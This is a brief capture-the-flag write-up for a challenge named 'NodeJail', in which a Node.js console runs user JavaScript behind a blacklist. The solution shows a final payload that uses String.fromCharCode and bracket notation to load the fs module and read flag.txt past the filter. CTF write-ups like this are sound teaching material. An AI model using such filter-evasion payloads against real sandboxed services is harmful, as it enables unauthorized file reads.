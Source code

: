 # NodeJail
Author: Reyes  
**Difficulty: Medium**  

# Description
I made a nodejs console to run javascript as a service. Read flag.txt.

# Solution

Blacklist of string characters can be bypassed with `String.fromCharCode()`, while blacklisting the read function can be byppased with `[]` notation instead of `.` notation.

## Final Payload
```js
require(String.fromCharCode(110,111,100,101,58,102,115))[String.fromCharCode(114,101,97,100,70,105,108,101)](String.fromCharCode(46,47,102,108,97,103,46,116,120,116), String.fromCharCode(117,116,102,56), function(_, data){console.log(data)})
```
